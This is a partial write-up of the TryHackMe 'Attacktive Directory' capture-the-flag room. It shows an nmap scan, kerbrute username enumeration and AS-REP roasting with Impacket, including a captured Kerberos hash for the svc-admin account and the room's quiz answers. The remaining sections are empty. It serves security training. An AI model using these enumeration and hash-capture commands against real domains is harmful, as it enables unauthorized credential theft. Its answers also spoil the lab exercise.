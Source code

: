 # Attacktive Directory

- [Tools](#tools)
- [Deploy The Machine](#deploy-the-machine)
- [Setup](#setup)
- [Welcome to Attacktive Directory](#welcome-to-attacktive-directory)
- [Enumerating Users via Kerberos](#enumerating-users-via-kerberos)
- [Abusing Kerberos](#abusing-kerberos)
- [Back to the Basics](#back-to-the-basics)
- [Elevating Privileges within the Domain](#elevating-privileges-within-the-domain)
- [Flag Submission Panel](#flag-submission-panel)

Room Link: https://tryhackme.com/r/room/attacktivedirectory

## Tools
1. NMap
2. [kerbrute](https://github.com/ropnop/kerbrute/releases)
3. 

## Deploy The Machine
1. Goto Access and get ovpn file to connect https://tryhackme.com/access Or, Start attackbox for testing.
2. `Start Machine` and get Target IP from "Target Machine Information".
3. Now, Click on all four Completes.

## Setup
1. Follow Instructions in this section, to `Install Impacket, Bloodhound and Neo4j`.
2. After installing click on `Complete`.

## Welcome to Attacktive Directory
1. Running nmap scan shows some open ports, command used `nmap -sV -sC 10.10.94.138`.
   ```bash
   nmap -sV -sC 10.10.94.138
   Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-24 12:12 IST
   Nmap scan report for 10.10.94.138
   Host is up (0.17s latency).
   Not shown: 987 closed tcp ports (reset)
   PORT     STATE SERVICE       VERSION
   53/tcp   open  domain        Simple DNS Plus
   80/tcp   open  http          Microsoft IIS httpd 10.0
   | http-methods: 
   |_  Potentially risky methods: TRACE
   |_http-server-header: Microsoft-IIS/10.0
   |_http-title: IIS Windows Server
   88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-24 06:49:23Z)
   135/tcp  open  msrpc         Microsoft Windows RPC
   139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
   389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
   445/tcp  open  microsoft-ds?
   464/tcp  open  kpasswd5?
   593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
   636/tcp  open  tcpwrapped
   3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
   3269/tcp open  tcpwrapped
   3389/tcp open  ms-wbt-server Microsoft Terminal Services
   |_ssl-date: 2024-08-24T06:49:42+00:00; 0s from scanner time.
   | rdp-ntlm-info: 
   |   Target_Name: THM-AD
   |   NetBIOS_Domain_Name: THM-AD
   |   NetBIOS_Computer_Name: ATTACKTIVEDIREC
   |   DNS_Domain_Name: spookysec.local
   |   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
   |   Product_Version: 10.0.17763
   |_  System_Time: 2024-08-24T06:49:33+00:00
   | ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
   | Not valid before: 2024-08-23T06:06:09
   |_Not valid after:  2025-02-22T06:06:09
   Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
   
   Host script results:
   | smb2-security-mode: 
   |   3:1:1: 
   |_    Message signing enabled and required
   | smb2-time: 
   |   date: 2024-08-24T06:49:37
   |_  start_date: N/A
   
   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 449.40 seconds
   ```
2. Question `What tool will allow us to enumerate port 139/445?` Answer `enum4linux`. `enum4linux` can be used to enumerate `139`/`445` ports.
3. Question `What is the NetBIOS-Domain Name of the machine?` Answer `THM-AD`
4. Question `What invalid TLD do people commonly use for their Active Directory Domain?` Answer `.local`

## Enumerating Users via Kerberos
1. Now, we will bruteforce Kerberos with [kerbrute](https://github.com/ropnop/kerbrute/releases) using given `userlist.txt` and `passwordlist.txt`. So, at first we need to download those wordlists and install `kerbrute`.
2. Assign `spookysec.local` to machine ip is in `host` file. We can simply edit `/etc/hosts` file in Linux to assign domain to the ip.
3. We can use this command `kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt` to enumerate users. We got some valid usernames after scanning.
   ```bash
   james@spookysec.local
   svc-admin@spookysec.local
   robin@spookysec.local
   darkstar@spookysec.local
   administrator@spookysec.local
   backup@spookysec.local
   paradox@spookysec.local
   ```
4. Question `What command within Kerbrute will allow us to enumerate valid usernames?` Answer `userenum`.
5. Question `What notable account is discovered? (These should jump out at you)` Answer `svc-admin`. `svc-admin` typically suggests a `service account` (`svc`) with `administrative privileges` (`admin`).
6. Question `What is the other notable account is discovered? (These should jump out at you)` Answer `backup`.

## Abusing Kerberos
1. Read this section, then proceed.
2. We can use `GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass` or `GetNPUsers.py -dc-ip spookysec.local spookysec.local/ -no-pass -usersfile user.txt` after saving all users to `user.txt` to capture `TGT Token` of `svc-admin` using ASREPRoasting method.
   ```bash
   GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
   Impacket v0.12.0.dev1+20240807.21946.829239e - Copyright 2023 Fortra
   
   [*] Getting TGT for svc-admin
   $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:92f01444cd97361751ec4fb5b5ea985a$04b60fa94a84739e7db13609241d16247154e8d1f952c26a0c5063e53d08c9a4365690982460f7872d8ade23113cd4df929c85d5404f4380fdcaa5af2ee22d7988d7ee428e535be1b2dcff88bf574d418ca88c3b435cea77b6ea322b510bcf59ac1fba479d54db52104c3bec497cf1b81ddcd384bbb5d115ba2c380f0520705c7b63c88f548f17a9c6c8c1b746175b896b29555a45002ad5195a90d42c45193e42915a1107ed46a6b79da94b835f5e7bd8858c0bb7f07fecab80f7097c769da284ea270697500ea73ea223d93684e8d087248610cf7809d076d5e97564e9729ec5aa04656eaec9f3f5a92ecfaa8524346e93
   ```
3. 
## Back to the Basics

## Elevating Privileges within the Domain

## Flag Submission Panel

Author: Zishan Ahamed Thandar

